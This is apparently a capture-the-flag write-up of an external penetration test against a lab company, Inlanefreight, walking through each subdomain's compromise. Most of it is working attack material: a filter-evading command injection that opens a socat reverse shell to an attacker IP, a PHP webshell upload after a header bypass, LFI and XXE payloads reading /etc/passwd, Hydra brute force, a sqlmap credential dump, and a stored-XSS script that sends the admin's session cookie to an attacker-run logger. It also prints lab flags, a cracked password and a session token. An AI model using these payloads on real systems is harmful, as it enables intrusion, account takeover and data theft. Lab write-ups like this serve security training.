## Task

Our client, Inlanefreight, has contracted our company, Acme Security, Ltd., to perform a full-scope External Penetration Test to assess their perimeter security. The customer has asked us to identify as many vulnerabilities as possible; therefore, evasive testing is not required. They would like to see what sort of access can be achieved by an anonymous user on the Internet. Per the Rules of Engagement (RoE), if we can breach the DMZ and gain a foothold into the internal network, they would like us to see how far we can take that access, up to and including Active Directory domain compromise. The client has not provided web application, VPN, or Active Directory user credentials. The following domain and network ranges are in scope for testing:

|**External Testing**|**Internal Testing**|
|---|---|
|10.129.x.x ("external" facing target host)|172.16.8.0/23|
|*.inlanefreight.local (all subdomains)|172.16.9.0/23|
||INLANEFREIGHT.LOCAL (Active Directory domain)|

The customer has provided the primary domain and internal networks but has not given specifics on the exact subdomains within this scope nor the "live" hosts we will encounter within the network. They would like us to perform discovery to see what type of visibility an attacker can gain against their external network (and internal if a foothold is achieved).

Automated testing techniques such as enumeration and vulnerability scanning are permitted, but we must work carefully not to cause any service disruptions. The following are out of scope for this assessment:

- Phishing/Social Engineering against any Inlanefreight employees or customers
- Physical attacks against Inlanefreight facilities
- Destructive actions or Denial of Service (DoS) testing
- Modifications to the environment without written consent from authorized Inlanefreight IT staff

---

## Nmap Scan

```bash
nmap -sC -sV 10.129.34.144 --open
```

```
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
25/tcp   open  smtp     Postfix smtpd
53/tcp   open  domain   (unknown banner: 1337_HTB_DNS)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
110/tcp  open  pop3     Dovecot pop3d
111/tcp  open  rpcbind  2-4 (RPC #100000)
143/tcp  open  imap     Dovecot imapd (Ubuntu)
993/tcp  open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp  open  ssl/pop3 Dovecot pop3d
8080/tcp open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Support Center
```

```bash
nmap -p- 10.129.34.144 --open -T5
```

```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
110/tcp  open  pop3
111/tcp  open  rpcbind
143/tcp  open  imap
993/tcp  open  imaps
995/tcp  open  pop3s
8080/tcp open  http-proxy
```

The full-range scan confirms no additional ports beyond the top-1000 scan.

---

## FTP Enumeration

```bash
ftp -a 10.129.39.98
```

```
220 (vsFTPd 3.0.3)
331 Please specify the password.
230 Login successful.
ftp> ls
-rw-r--r--    1 0        0              38 May 30  2022 flag.txt
ftp> more flag.txt
HTB{0eb0ab788df18c3115ac43b1c06ae6c4}
```

Anonymous FTP login is allowed, exposing a flag file directly in the root directory.

---

## DNS Zone Transfer

```bash
dig axfr inlanefreight.local @inlanefreight.local
```

```
inlanefreight.local.    86400   IN      SOA     ns1.inlanfreight.local. dnsadmin.inlanefreight.local. 21 604800 86400 2419200 86400
inlanefreight.local.    86400   IN      NS      inlanefreight.local.
inlanefreight.local.    86400   IN      A       127.0.0.1
blog.inlanefreight.local. 86400 IN      A       127.0.0.1
careers.inlanefreight.local. 86400 IN   A       127.0.0.1
dev.inlanefreight.local. 86400  IN      A       127.0.0.1
flag.inlanefreight.local. 86400 IN      TXT     "HTB{DNs_ZOn3_Tr@nsf3r}"
gitlab.inlanefreight.local. 86400 IN    A       127.0.0.1
ir.inlanefreight.local. 86400   IN      A       127.0.0.1
status.inlanefreight.local. 86400 IN    A       127.0.0.1
support.inlanefreight.local. 86400 IN   A       127.0.0.1
tracking.inlanefreight.local. 86400 IN  A       127.0.0.1
vpn.inlanefreight.local. 86400  IN      A       127.0.0.1
```

The name server allows an unauthenticated zone transfer, disclosing every subdomain in use plus a flag stored directly in a TXT record.

---

## Vhost Enumeration

```bash
gobuster vhost -u http://inlanefreight.local -w /home/kali/SecLists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain
```

```
dev.inlanefreight.local Status: 200 [Size: 2048]
vpn.inlanefreight.local Status: 200 [Size: 1578]
support.inlanefreight.local Status: 200 [Size: 26635]
blog.inlanefreight.local Status: 200 [Size: 8708]
status.inlanefreight.local Status: 200 [Size: 878]
monitoring.inlanefreight.local Status: 200 [Size: 56]
careers.inlanefreight.local Status: 200 [Size: 51806]
tracking.inlanefreight.local Status: 200 [Size: 35211]
ir.inlanefreight.local Status: 200 [Size: 28548]
gitlab.inlanefreight.local Status: 302 [Size: 113] [--> http://gitlab.inlanefreight.local/users/sign_in]
www.monitoring.inlanefreight.local Status: 200 [Size: 56]
```

All discovered vhosts are added to `/etc/hosts` for further enumeration.

---

## blog.inlanefreight.local



The host runs a Drupal instance.

```bash
curl -s http://blog.inlanefreight.local/ | grep Drupal
```

```
<meta name="Generator" content="Drupal 9 (https://www.drupal.org)" />
```

Fingerprinting confirms Drupal 9, which has no known CVE for this version. No further exploitation is performed on this vhost.

---

## careers.inlanefreight.local


A new user account can be registered:


The newly created account's profile page discloses "Jobs applied by user", and the URL `profile?id=9` suggests an IDOR:


Changing the `id` parameter from `9` to `4` discloses another user's data, including the flag:


**Flag**:

```
HTB{8f40ecf17f681612246fa5728c159e46}
```

---

## dev.inlanefreight.local

A login form is presented:



Directory fuzzing discloses `upload.php`:

```bash
gobuster dir -u http://dev.inlanefreight.local -w /home/kali/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt -x .php
```

```
index.php            (Status: 200) [Size: 2048]
images               (Status: 301) [Size: 335]
uploads               (Status: 301) [Size: 336]
upload.php           (Status: 200) [Size: 14]
css                   (Status: 301) [Size: 332]
js                    (Status: 301) [Size: 331]
```

A GET request to `/upload.php` returns a 403 Forbidden:



HTTP verb tampering (changing the method to `TRACK`) reflects a header `X-Custom-IP-Authorization: 172.18.0.1` in the response:



Sending a new request with that header set to `127.0.0.1` tricks the web server into treating the request as coming from an internal host, bypassing the authorization check:



The upload form becomes accessible:



Uploads are restricted to images; setting the `Content-Type` of the multipart field to `image/png` bypasses the filter, allowing a PHP webshell to be uploaded:



Browsing the web root through the webshell discloses the flag file:



Reading the flag:



**Flag:**

```
HTB{57c7f6d939eeda90aa1488b15617b9fa}
```

---

## gitlab.inlanefreight.local

An account is registered:



Navigating to `/explore`:


The flag and a new vhost, `shopdev2.inlanefreight.local`, are discovered.

**Flag:**

```
HTB{32596e8376077c3ef8d5cf52f15279ba}
```

---

## ir.inlanefreight.local

The page displayed is powered by WordPress:


```bash
curl -s http://ir.inlanefreight.local | grep WordPress
```

```
<meta name="generator" content="WordPress 6.0" />
```

Enumeration with WPScan reveals users and the vulnerable `mail-masta` plugin, which is affected by a Local File Inclusion vulnerability:

```bash
wpscan --url http://ir.inlanefreight.local --enumerate p,t,u
```

```
[+] mail-masta
 | Version: 1.0

Users identified: ilfreightwp, john, tom, james
```

The LFI is exploited to read `/etc/passwd`:

```bash
curl "http://ir.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd"
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin

```

The same parameter is used to read the flag:

```bash
curl "http://ir.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/www/html/flag.txt"
```

**Flag:**

```
HTB{e7134abea7438e937b87608eab0d979c}
```

---

## monitoring.inlanefreight.local

A login form is presented:


Brute forcing with Hydra reveals valid credentials:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt monitoring.inlanefreight.local http-post-form "/login.php:username=^USER^&password=^PASS^:F=Invalid"
```

```
[80][http-post-form] host: monitoring.inlanefreight.local   login: admin   password: 12qwaszx
```

After login, a very limited shell interface is accessible:



Enumerating the source code of the page:


`main.js` discloses an endpoint that runs a `ping` command server-side, and a function that calls it with a user-controllable IP, suggesting a possible command injection:


Testing the endpoint confirms the ping functionality works as expected:


Command injection is confirmed using `%0a` (URL-encoded newline), which is not blacklisted:

```
/ping.php?ip=127.0.0.1%0acat${IFS}${PATH:0:1}etc${PATH:0:1}passwd
```



Reading the source of `ping.php` itself, via the same injection:

```
GET /ping.php?ip=127.0.0.1%0acat${IFS}ping.php
```



```php
<?php
function filter($str)
{
  $operators = ['&', '|', ';', '\\', '/', ' '];
  foreach ($operators as $operator) {
    if (strpos($str, $operator)) {
      return true;
    }
  }
  $words = ['whoami', 'echo', 'rm', 'mv', 'cp', 'id', 'curl', 'wget', 'cd', 'sudo', 'mkdir', 'man', 'history', 'ln', 'grep', 'pwd', 'file', 'find', 'kill', 'ps', 'uname', 'hostname', 'date', 'uptime', 'lsof', 'ifconfig', 'ipconfig', 'ip', 'tail', 'netstat', 'tar', 'apt', 'ssh', 'scp', 'less', 'more', 'awk', 'head', 'sed', 'nc', 'netcat'];
  foreach ($words as $word) {
    if (strpos($str, $word) !== false) {
      return true;
    }
  }
  return false;
}

if (isset($_GET['ip'])) {
  $ip = $_GET['ip'];
  if (filter($ip)) {
    $output = "Invalid input";
  } else {
    $cmd = "bash -c 'ping -c 1 " . $ip . "'";
    $output = shell_exec($cmd);
  }
}
?>
```

The filter blacklists several operators and command names but does not block `/`-less binaries like `socat`, which is present on the host:



A socat reverse shell listener is started locally and adapted to evade the filter (operators quoted character-by-character, `${IFS}` used instead of spaces):

```bash
socat TCP:10.10.14.111:9001 EXEC:bash
```

```
GET /ping.php?ip=127.0.0.1%0aso'c'at${IFS}TCP:10.10.14.111:9001${IFS}EXEC:bash
```



A shell as `webdev` is obtained on host `dmz01`:

```bash
nc -lvnp 9001
```

```
connect to [10.10.14.111] from (UNKNOWN) [10.129.41.126] 57022
id
uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
```

```bash
webdev@dmz01:/var/www/html/monitoring$ find / -name "flag.txt" 2>/dev/null

/home/srvadm/flag.txt

/srv/ftp/flag.txt
```

**Flags:**

```bash
webdev@dmz01:/var/www/html/monitoring$ cat /home/srvadm/flag.txt

b447c27a00e3a348881b0030177000cd

webdev@dmz01:/var/www/html/monitoring$ cat /srv/ftp/flag.txt

HTB{0eb0ab788df18c3115ac43b1c06ae6c4} # same of the ftp server
```


> [!note] This shell is kept for later local privilege escalation and pivoting into the internal networks.

---

## shopdev2.inlanefreight.local

This vhost was disclosed via the GitLab `/explore` page. A login is presented:


The page is accessible with `admin:admin`:


Selecting items and going to checkout shows the "Complete Purchase" action accepts an XML body, as seen in Burp:


An XXE payload is tested to read `/etc/passwd` and works:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
    <subtotal>&xxe;</subtotal>
    <userid>&xxe;</userid>
</root>
```


The same technique is used to read the flag:



**Flag:**

```
HTB{dbca4dc5d99cdb3311404ea74921553c}
```

---

## status.inlanefreight.local

Testing a single quote (`'`) in the search field triggers a SQL syntax error, indicating a SQL injection:


The request is captured in Burp and passed to sqlmap:

```bash
sqlmap -r status.txt --technique=BEU --batch --dump
```

```
Parameter: searchitem (POST)
    Type: boolean-based blind
    Type: error-based
    Type: UNION query

back-end DBMS: MySQL >= 5.6

Database: status
Table: users
+----+-----------------------------------+----------+
| id | password                          | username |
+----+-----------------------------------+----------+
| 1  | 4528342e54d6f8f8cf15bf6e3c31bf1f6 | Admin    |
| 2  | 1fbea4df249ac4f4881a5da387eb297cf | Flag     |
+----+-----------------------------------+----------+

Database: status
Table: company
[6 entries]
```

The injection confirms the back-end is MySQL and dumps the `users` and `company` tables. A `Flag` user row is present.

---

## support.inlanefreight.local


The site is a support center with two main functions: buy a product and raise a ticket. The `/ticket.php` endpoint is vulnerable to stored XSS, used to capture the admin's session cookie:



`script.js` (hosted locally):

```javascript
document.location='http://10.10.15.1/index.php?c='+document.cookie;
new Image().src='http://10.10.15.1/index.php?c='+document.cookie;
```

`index.php` (hosted locally):

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

A local server is started with both files:

```bash
sudo php -S 0.0.0.0:80
```

The following payload is submitted in the ticket's message field, as shown above:

```javascript
"><script src="http://10.10.14.111/script.js"></script>
```

The admin's cookie is captured when the ticket is viewed:

```bash
sudo php -S 0.0.0.0:80

[Mon Nov 9 14:20:31 2026] PHP 8.4.27 Development Server (http://0.0.0.0:80) started
[Mon Nov 9 14:25:19 2026] 10.129.41.101:32818 Accepted
[Mon Nov 9 14:25:19 2026] 10.129.41.101:32818 [200]: GET /script.js
[Mon Nov 9 14:25:19 2026] 10.129.41.101:32818 Closing
[Mon Nov 9 14:25:19 2026] 10.129.41.101:32820 Accepted
[Mon Nov 9 14:25:19 2026] 10.129.41.101:32820 [200]: GET /index.php?c=session=fcfaf93ab169bc943b92109f0a845d99
